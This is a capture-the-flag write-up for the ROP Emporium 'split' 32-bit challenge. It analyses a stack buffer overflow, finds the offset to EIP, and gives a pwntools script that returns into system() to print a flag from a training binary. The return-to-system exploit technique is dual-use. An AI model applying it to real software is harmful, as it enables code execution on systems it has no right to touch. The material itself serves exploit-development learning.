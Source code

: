 # split x86 [Pwn]

- x86

Link : [split x86](https://ropemporium.com/challenge/split.html)

Binary : [split x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/split32.zip)


## Vulnerability Analysis and Exploitation

In the `pwnme` function, the program accepts an input string of up to `96 bytes`, while the size of the buffer `s` is limited to `40 bytes`. This allows for a buffer overflow, enabling us to overwrite critical registers and redirect the program's execution flow to another piece of code or program.

![pwnme](data/pwnme.png)

Imported Functions

Here is the list of imported functions:

![Imported](data/Imported.png)

We notice the presence of the `system` function, which is very useful for executing system commands.

Additionally, the binary contains the following interesting string:
`/bin/cat flag.txt`

![Strings](data/Strings.png)

Our goal is to exploit the vulnerability to call the `system` function with `/bin/cat flag.txt` as the argument, which will allow us to display the contents of the `flag.txt` file.

## Exploitation Plan

To call `system` with an argument in a 32-bit binary, we need to:

1. Push the address of the `system` function onto the stack.
2. Provide the necessary arguments (in this case, the address of the string `/bin/cat flag.txt`).

The stack layout should look like this:

```
Address of system  
(4 bytes)  
Address of "/bin/cat flag.txt"  
```

#### Key Information

- Address of system: 0x80483e0
- Address of the string /bin/cat flag.txt: 0x0804A030

![system](data/system.png)

![system](data/bincat.png)

## Calculating the Offset

Before redirecting the execution flow, we need to determine the exact offset required to reach the EIP register from the start of the buffer. We use `gdb` for this purpose.

Here’s an example output:

![gdb0](data/gdb0.png)

![gdb0](data/eip.png)

Now we know that the offset to reach EIP is 44 bytes (replace with the actual value).

Exploit

Using the calculated offset, we can construct our payload:

1. Fill the buffer up to the offset.
2. Add the address of the system function.
3. Add a dummy value (useful only for certain contexts where a return value is required).
4. Add the address of the string /bin/cat flag.txt.

Here’s an example payload:

```py

from pwn import *

sh = process("./split32")
print(sh.recv().decode())

payload = b"A" * 44        # Tthe offset  
payload += p32(0x80483e0)  # Address of system  
payload += b"JUNK"         # Dummy value  
payload += p32(0x0804A030) # Address of "/bin/cat flag.txt"  

sh.sendline(payload)
sh.interactive()
```
